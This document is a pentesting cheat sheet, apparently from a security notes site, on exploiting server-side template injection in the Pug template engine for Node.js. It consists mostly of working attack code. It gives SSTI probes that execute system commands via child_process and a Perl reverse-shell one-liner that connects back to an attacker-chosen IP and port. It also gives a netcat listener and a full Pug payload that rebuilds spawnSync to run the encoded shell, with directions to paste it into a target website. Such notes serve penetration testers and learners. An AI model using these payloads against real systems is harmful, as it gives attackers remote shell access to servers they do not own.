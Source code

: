 ```yaml
---
title: Pug Pentesting
description: Pug is a template engine for Node.js.
tags:
    - Reverse Shell
    - Web
refs:
date: 2022-12-01
draft: false
---
```


## Server-Side Template Injection (SSTI)

```txt
#{2*2}
#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('id')}()}
```

### Reverse Shell

First off, create a payload.

```sh
use Socket;$i="<local-ip>";$p=<local-port>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};
```

Encode it with Base64.  
And start listener for getting the incoming connection.

```sh
nc -lvnp 4444
```

Then prepare the full payload contained the above Base64 encoded hash.

```sh
h1= Hello world
p 3*3 is #{3*3}

#{spawn_sync = this.process.binding('spawn_sync')}
#{ normalizeSpawnArguments = function(c,b,a){if(Array.isArray(b)?b=b.slice(0):(a=b,b=[]),a===undefined&&(a={}),a=Object.assign({},a),a.shell){const g=[c].concat(b).join(' ');typeof a.shell==='string'?c=a.shell:c='/bin/sh',b=['-c',g];}typeof a.argv0==='string'?b.unshift(a.argv0):b.unshift(c);var d=a.env||process.env;var e=[];for(var f in d)e.push(f+'='+d[f]);return{file:c,args:b,options:a,envPairs:e};}}
#{spawnSync = function(){var d=normalizeSpawnArguments.apply(null,arguments);var a=d.options;var c;if(a.file=d.file,a.args=d.args,a.envPairs=d.envPairs,a.stdio=[{type:'pipe',readable:!0,writable:!1},{type:'pipe',readable:!1,writable:!0},{type:'pipe',readable:!1,writable:!0}],a.input){var g=a.stdio[0]=util._extend({},a.stdio[0]);g.input=a.input;}for(c=0;c<a.stdio.length;c++){var e=a.stdio[c]&&a.stdio[c].input;if(e!=null){var f=a.stdio[c]=util._extend({},a.stdio[c]);isUint8Array(e)?f.input=e:f.input=Buffer.from(e,a.encoding);}}console.log(a);var b=spawn_sync.spawn(a);if(b.output&&a.encoding&&a.encoding!=='buffer')for(c=0;c<b.output.length;c++){if(!b.output[c])continue;b.output[c]=b.output[c].toString(a.encoding);}return b.stdout=b.output&&b.output[1],b.stderr=b.output&&b.output[2],b.error&&(b.error= b.error + 'spawnSync '+d.file,b.error.path=d.file,b.error.spawnargs=d.args.slice(1)),b;}}
#{payload='<Base64-encoded-payload>'}
#{resp=spawnSync('perl',['-e',(new Buffer(payload, 'base64')).toString('ascii')])}
```

Copy it and paste into the target website, then send a request.  
You should now get the shell in your terminal.